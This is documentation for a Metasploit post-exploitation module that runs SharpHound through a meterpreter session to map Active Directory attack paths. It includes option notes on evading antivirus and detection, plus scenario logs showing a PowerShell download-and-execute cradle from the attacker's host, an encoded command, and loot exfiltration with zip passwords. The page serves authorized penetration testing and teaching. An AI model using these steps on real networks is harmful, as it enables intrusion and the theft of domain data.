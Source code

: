 ## Vulnerable Application

This module will execute the BloodHound C# Ingestor (aka SharpHound) to gather sessions, local admin, domain trusts and more.
With this information BloodHound will easily identify highly complex privilege elevation attack paths that would otherwise be
impossible to quickly identify within an Active Directory environment.

This module can take several/many minutes to run due to the volume of data being collected.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session on a Windows domain
  3. Do: `use post/windows/gather/bloodhound`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see that the module is running a powershell in the target machine
  7. You should be able to see, after few minutes, that the module created a loot with the BloodHound results in zip format

## Options

### Method

Which method to use to get shaphound running.  Default is `download`.

  1. `download` requires the compromised host to have connectivity back to metasploit to download and execute the
      payload.  Sharphound is not written to disk.
  2. `disk` requires admin privileges to bypass the execution policy (if it isn't open).  Writes the `sharphound.exe`
     file to disk.  No connectivity is required but a disk write does happen which is likely to get caught by AV.

### CollectionMethode

The collection method to use. Accepted values are `Default`, `Group`,
`LocalAdmin`, `RDP`, `DCOM`, `GPOLocalGroup`, `Session`, `ObjectProps`, `ComputerOnly`, `LoggedOn`, `Trusts`, `ACL`, `Container`,
`DcOnly`, `All`.  The default method is `Default`.

### Domain

Specifies the domain to enumerate. If not specified, will enumerate the current domain your user context specifies.

### Stealth

Use stealth collection options, will sacrifice data quality in favor of much reduced network impact. The default value is `false`.

### ExcludeDomainControllers

Exclude domain controllers from session queries. Useful for ATA environments which detect this behavior. The default value is `false`.

### DomainController

Specify which Domain Controller to request data from. Defaults to closest DC using Site Names.

### LdapPort

Override the port used to connect to LDAP.

### SecureLdap

Uses LDAPs instead of unencrypted LDAP on port 636. The default value is `false`.

### DisableKerbSigning

Disables Kerberos Signing on requests. The default value is `false`.


### OutputFolder

Folder to write the JSON output to.  Default is to enumerate the Windows Temp folder.

### EncryptZip

If the zip should be encrypted by SharpHound using a random password.  Password is stored to `notes`, default is `true`.

### NoSaveCache

If the cache file (.bin) should NOT be written to disk.  Default is `true`.

## Scenarios

### Windows 2012 Domain Controller, Download method

```
msf post(windows/gather/bloodhound) > run

[*] Using URL: http://1.1.1.1:8080/127mPhBr3dZ
[*] Loading BloodHound with: IEX (new-object net.webclient).downloadstring('http://1.1.1.1:8080/127mPhBr3dZ')
[*] Invoking BloodHound with: Invoke-BloodHound -OutputDirectory "C:\Users\ADMINI~1\AppData\Local\Temp" -ZipFileName isid -MemCache -ZipPassword ilvtbfgkcmwszdxjn 
[*] 2022-11-13T13:45:21.0298446-05:00|INFORMATION|This version of SharpHound is compatible with the 4.2 Release of BloodHound
[*] 2022-11-13T13:45:21.4198615-05:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:21.4666492-05:00|INFORMATION|Initializing SharpHound at 1:45 PM on 11/13/2022
[*] 2022-11-13T13:45:22.2154647-05:00|INFORMATION|Loaded cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:45:22.2310827-05:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[*] 2022-11-13T13:45:22.6054639-05:00|INFORMATION|Beginning LDAP search for hoodiecola.com
[*] 2022-11-13T13:45:22.7458626-05:00|INFORMATION|Producer has finished, closing LDAP channel
[*] 2022-11-13T13:45:22.7614632-05:00|INFORMATION|LDAP channel closed, waiting for consumers
[*] 2022-11-13T13:45:53.5431310-05:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 87 MB RAM
[*] 2022-11-13T13:46:06.1354911-05:00|INFORMATION|Consumers finished, closing output channel
[*] 2022-11-13T13:46:06.2134955-05:00|INFORMATION|Output channel closed, waiting for output task to complete
[*] Closing writers
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Status: 100 objects finished (+100 2.325581)/s -- Using 89 MB RAM
[*] 2022-11-13T13:46:06.5255088-05:00|INFORMATION|Enumeration finished in 00:00:43.9260652
[*] 2022-11-13T13:46:06.7283096-05:00|INFORMATION|Saving cache with stats: 59 ID to type mappings.
[*]  59 name to SID mappings.
[*]  0 machine sid mappings.
[*]  2 sid to domain mappings.
[*]  0 global catalog mappings.
[*] 2022-11-13T13:46:06.7439000-05:00|INFORMATION|SharpHound Enumeration Completed at 1:46 PM on 11/13/2022! Happy Graphing!
[+] Downloaded C:\Users\ADMINI~1\AppData\Local\Temp\20221113134605_isid.zip: /root/.msf4/loot/20221113141655_default_2.2.2.2_windows.ad.blood_027677.zip
[+] Zip password: ilvtbfgkcmwszdxjn
[*] Post module execution completed
```

### Windows 10 non-AD host, Windows Server 2012 AD, Disk Method

```
meterpreter > sysinfo
Computer        : WIN10PROLICENSE
OS              : Windows 10 (10.0 Build 16299).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 1...
msf5 post(windows/gather/bloodhound) > set method disk
method => disk
msf5 post(windows/gather/bloodhound) > exploit

[*] Uploading sharphound.exe as C:\Users\user\Desktop\qehojlwml.exe
[*] Loading BloodHound with: . C:\Users\user\Desktop\qehojlwml.exe --outputdirectory "C:\Users\user\AppData\Local\Temp" --zipfilename eiqxerh --encryptzip --nosavecache 
[+] EXECUTING:
powershell.exe -EncodedCommand LgAgAEMAOgBcAFUAcwBlAHIAcwBcAHQAYQByAGEAXABEAGUAcwBrAHQAbwBwAFwAcQBlAGgAbwBqAGwAdwBtAGwALgBlAHgAZQAgAC0ALQBvAHUAdABwAHUAdABkAGkAcgBlAGMAdABvAHIAeQAgACIAQwA6AFwAVQBzAGUAcgBzAFwAdABhAHIAYQBcAEEAcABwAEQAYQB0AGEAXABMAG8AYwBhAGwAXABUAGUAbQBwACIAIAAtAC0AegBpAHAAZgBpAGwAZQBuAGEAbQBlACAAZQBpAHEAeABlAHIAaAAgAC0ALQBlAG4AYwByAHkAcAB0AHoAaQBwACAALQAtAG4AbwBzAGEAdgBlAGMAYQBjAGgAZQAgADsAIAA= -InputFormat None
[*] ----------------------------------------------
[*] Initializing SharpHound at 4:19 PM on 6/3/2020
[*] ----------------------------------------------
[*] 
[*] Resolved Collection Methods: Group, Sessions, Trusts, ACL, ObjectProps, LocalGroups, SPNTargets, Container
[*] 
[*] [+] Creating Schema map for domain HOODIECOLA.COM using path CN=Schema,CN=Configuration,DC=HOODIECOLA,DC=COM
[*] [+] Cache File not Found: 0 Objects in cache
[*] 
[*] [+] Pre-populating Domain Controller SIDS
[*] Status: 0 objects finished (+0) -- Using 19 MB RAM
[*] Status: 63 objects finished (+63 21)/s -- Using 26 MB RAM
[*] Enumeration finished in 00:00:03.3219377
[*] Compressing data to C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip
[*] Password for Zip file is QEqUpTtU0v. Unzip files manually to upload to interface
[*] 
[*] SharpHound Enumeration Completed at 4:19 PM on 6/3/2020! Happy Graphing!
[*] 
[+] Downloaded C:\Users\user\AppData\Local\Temp\20200603161905_eiqxerh.zip: /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip
[+] Zip password: QEqUpTtU0v
[*] Deleting C:\Users\user\Desktop\qehojlwml.exe
[*] Post module execution completed

msf5 post(windows/gather/bloodhound) > notes

Notes
=====

 Time                     Host          Service  Port  Protocol  Type                     Data
 ----                     ----          -------  ----  --------  ----                     ----
 2020-06-03 23:27:05 UTC  2.2.2.2                           Sharphound Zip Password  "Bloodhound/Sharphound loot /metasploit/.msf4/loot/20200603192705_default_2.2.2.2_windows.ad.blood_749446.zip password is QEqUpTtU0v"

```
